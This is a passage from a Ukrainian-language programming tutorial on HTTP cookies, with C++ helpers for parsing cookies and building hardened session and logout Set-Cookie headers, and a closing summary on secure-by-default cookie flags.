                std::string_view v = token.substr(eq_pos + 1);

                if (k == name) {
                    return std::string(v);
                }
            }
            start = end + 1;
        }
        return std::nullopt;
    }

    // Формування захищеного Set-Cookie
    static std::string make_host_session_cookie(std::string_view sid, int max_age_seconds = 86400) {
        std::ostringstream ss;
        ss << "__Host-sid=" << sid
           << "; Path=/"
           << "; Max-Age=" << max_age_seconds
           << "; HttpOnly"
           << "; Secure"
           << "; SameSite=Lax";
        return ss.str();
    }

    // Заголовок скидання
    static std::string make_logout_cookie() {
        return "__Host-sid=; Path=/; Max-Age=0; HttpOnly; Secure; SameSite=Lax";
    }
};

} // namespace backend
```
:::

Повну бібліотеку з алгоритмами безпечного розбору пошкоджених заголовків, зняттям лапок та перевіркою коректності кожного байта [зібрано окремим проєктом парсера](book:programming/http-cookies/proj-cookie-parser.md).

## Підсумок: баланс безпам'ятного сервера й цілісного користувацького досвіду

HTTP-cookie розв'язали фундаментальну суперечність між масштабованістю розподіленого безпам'ятного протоколу та потребою людини в безперервному персоналізованому контексті. Передаючи управління життєвим циклом, доменом і безпекою на бік стандартизованого браузерного клієнта, веб зберіг простоту серверної моделі. Сучасна інженерна дисципліна полягає у використанні захищених за замовчуванням прапорців (`HttpOnly`, `Secure`, `SameSite=Lax`) та префікса `__Host-`, що перетворює колишній крихкий інженерний хак на надійну фортецю збереження стану.
